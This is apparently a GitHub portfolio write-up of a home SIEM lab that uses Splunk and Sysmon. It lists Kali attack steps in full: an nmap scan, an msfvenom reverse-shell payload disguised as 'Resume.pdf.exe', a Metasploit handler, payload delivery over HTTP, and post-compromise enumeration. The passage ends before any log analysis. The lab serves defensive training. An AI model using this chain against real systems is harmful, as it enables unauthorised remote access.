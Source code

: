 ### SIEM-Implementation-and-Log-Analysis

### Objective
This SIEM implementation lab focused on deploying and configuring a Security Information and Event Management (SIEM) solution using Splunk on a Windows virtual machine. The goal was to monitor and detect security threats by leveraging Sysmon logs, while simulating real-world cyber attacks from a Kali Linux virtual machine using Metasploit and MSFvenom. These simulations generated security events that were analyzed to improve incident response capabilities. The hands-on project provided practical experience in using Splunk Processing Language (SPL), parsing log data, and identifying attack patterns through parent-child process relationships.

### Skills Learned
. Gained advanced understanding of SIEM concepts and their real-world application.
. Demonstrated proficiency in analyzing, interpreting, and correlating network and host-based logs.
. Developed the ability to generate and identify attack signatures and behavioral patterns.
. Strengthened knowledge of network protocols and common security vulnerabilities.
. Enhanced critical thinking and problem-solving skills in cybersecurity contexts.
. Deepened understanding of the importance of filtering and prioritizing logs using EventCodes for effective threat detection.

### Tools Used
. Splunk – Deployed as the SIEM platform for log ingestion, correlation, and security event analysis.
. Kali Linux – Used for simulating attacks, including payload generation with MSFvenom and exploitation with Metasploit.
. Telemetry Generation Tools – Employed to simulate realistic network traffic and create meaningful attack scenarios.
. Windows Logging & Monitoring – Utilized Sysmon and native event logging to collect and analyze security-relevant data, with a focus on process creation events and parent-child relationships.

### Steps
1. Screenshots of Kali Linux Attack Simulation
Below are key command-line steps executed on the Kali Linux virtual machine during the simulated cyber attack targeting the Windows environment:
Nmap Port Scan
Objective: Identify open ports on the Windows target.
Command: nmap -sS -T4 -Pn <target-ip>
Result: Discovered open TCP port 3389 (RDP) indicating a potential remote access point.
![image alt](https://github.com/waqar172/Portfolio/blob/master/01.PNG?raw=true)

2. MSFvenom Payload Generation
Objective: Create a malicious executable to simulate initial access.
Command: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=4444 -f exe -o Resume.pdf.exe
Output: Generated a reverse shell payload disguised as a PDF file.
![image alt](https://github.com/waqar172/Portfolio/blob/master/02.PNG?raw=true)

3. Metasploit Exploit Setup
Objective: Configure the Metasploit listener to handle the reverse shell.
Commands: msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <kali-ip>
set LPORT 4444
run
![image alt](https://github.com/waqar172/Portfolio/blob/master/03.PNG?raw=true)

4. Python HTTP Server for Payload Delivery
Objective: Serve the malicious file to the Windows victim machine over HTTP.
Command: python3 -m http.server 9999
![image alt](https://github.com/waqar172/Portfolio/blob/master/04.PNG?raw=true)

5. HTTP Server Webpage Hosting the Payload
Objective: Deliver the malicious executable (Resume.pdf.exe) to the target Windows machine. The file is hosted via a simple Python HTTP server on port 9999.
Command used to start the server: python3 -m http.server 9999
Description:
The screenshot displays the HTTP server’s web interface as seen from a browser, listing the malicious payload (Resume.pdf.exe) and confirming it is accessible for download by the Windows target.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/05.PNG)

6. Evidence of Reverse Shell Connection on Windows Target
Objective: Confirm that the malicious payload (Resume.pdf.exe) executed successfully and established a reverse TCP connection from the Windows machine to the Kali Linux attacker's machine.
Screenshot 1: Established Connection via netstat
Command Run: netstat -anob
Description:
This screenshot captures the Windows command prompt output showing an active TCP connection from the Windows machine to the Kali Linux attacker's IP on port 4444. The connection is linked to PID 3588, indicating the process responsible for the communication.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/06.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/07.PNG)

Screenshot 2: Process Linked to Payload in Task Manager
Description:
This screenshot displays the Services tab in Task Manager, verifying that PID 3588 belongs to the malicious file Resume.pdf.exe. This confirms that the payload generated via MSFvenom is actively running and responsible for the established reverse shell connection.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/08.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/09.PNG)

7. Meterpreter Session Established from Kali Linux
Objective: Confirm that the Metasploit handler successfully received a reverse TCP connection from the Windows target.
Screenshot 1: Metasploit Reverse Shell Connection
Description:
This screenshot captures the Metasploit console after executing the exploit command. The terminal output shows that the handler began listening on the specified local port and successfully received a reverse TCP connection, initiating Meterpreter session 4. The connection is from the Windows target IP back to the Kali Linux attack machine.
Screenshot
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/10.PNG)

8. Post-Exploitation Commands Executed via Meterpreter
Objective: Simulate initial attacker enumeration activities following successful compromise.
Screenshot 2: Post-Exploitation Enumeration via shell
Description:
After invoking the shell command within the Meterpreter session, the Windows Command Prompt (cmd.exe) was accessed. Several commands were executed to gather system and user information:
net user – Lists user accounts on the system.
net localgroup – Displays local user groups.
ipconfig – Shows network interface configurations and IP address assignments.
Screenshot


